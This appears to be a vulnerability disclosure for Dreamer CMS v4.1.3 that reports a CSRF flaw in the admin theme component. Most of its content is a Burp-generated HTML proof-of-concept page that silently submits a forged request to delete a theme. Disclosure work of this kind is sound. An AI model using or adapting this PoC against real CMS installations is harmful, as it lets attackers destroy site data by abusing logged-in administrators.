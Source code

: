 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/theme/list.

![step1](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer1.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer2.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8888/admin/theme/delete">
      <input type="hidden" name="id" value="3d4383fcadc34481a16e5a116812c473" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer3.png)


![图片](https://github.com/CP1379767017/cms/blob/dreamcms_vul/images/dreamer3.png?raw=true)


successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer4.png)
